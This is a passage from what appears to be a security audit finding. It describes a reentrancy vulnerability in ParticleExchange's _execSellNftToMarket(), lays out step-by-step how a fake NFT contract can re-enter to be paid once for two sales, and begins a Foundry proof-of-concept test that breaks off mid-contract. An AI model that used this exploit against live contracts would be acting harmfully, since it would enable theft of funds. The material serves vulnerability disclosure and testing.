 ### Proof of Concept

`_execSellNftToMarket()` The number of changes in the balance to represent whether the corresponding amount has been received.

```solidity
    function _execSellNftToMarket(
        address collection,
        uint256 tokenId,
        uint256 amount,
        bool pushBased,
        address marketplace,
        bytes calldata tradeData
    ) internal {
...

        if (
            IERC721(collection).ownerOf(tokenId) == address(this) ||
            address(this).balance - ethBefore - wethBefore != amount
        ) {
            revert Errors.InvalidNFTSell();
        }    
```

Since the current contract doesn't have any `nonReentrant` restrictions, the user can use `reentrant` and pay only once when multiple `_execSellNftToMarket()`s share the same transfer of funds.

Here are some examples:

1.  Alice supplies a fake NFT_A.
2.  Alice executes `sellNftToMarket()`, assuming `sellAmount=10`.
3.  `execSellNftToMarket()` inside the `IERC721(collection).safeTransferFrom()` for re-entry.
<br>Note: The collection is an arbitrary contract, so `safeTransferFrom()` can be any code.
4. Reenter the execution of another Lien's `sellNftToMarket()`, and really transfer to `amount=10`.
5. After the above re-entry, go back to step 3. This step does not need to actually pay, because step 4 has been transferred to `sellAmount = 10`, so it can pass this verification `address(this).balance - ethBefore - wethBefore ! = amount` so that only one payment is made, reaching the `sellNftToMarket()` twice.

Test code:

add to ParticleExchange.t.sol

```solidity

    function testReenter() public{
        vm.deal(address(particleExchange),100 ether);        
        FakeERC721 fakeERC721 =  new FakeERC721(particleExchange,address(dummyMarketplace),"fake","fake");
        vm.deal(address(fakeERC721),10 ether);
        fakeERC721.execSteal();
    }



contract FakeERC721 is ERC721 {
    ParticleExchange private particleExchange;
    address private marketplace;
    uint sellAmount = 10 ether;
    constructor(ParticleExchange _particleExchange,address _marketplace, string memory name, string memory symbol) ERC721(name, symbol) {
        particleExchange = _particleExchange;
        marketplace = _marketplace;
    }

    function mint(address to, uint256 tokenId) external {
        _safeMint(to, tokenId);
```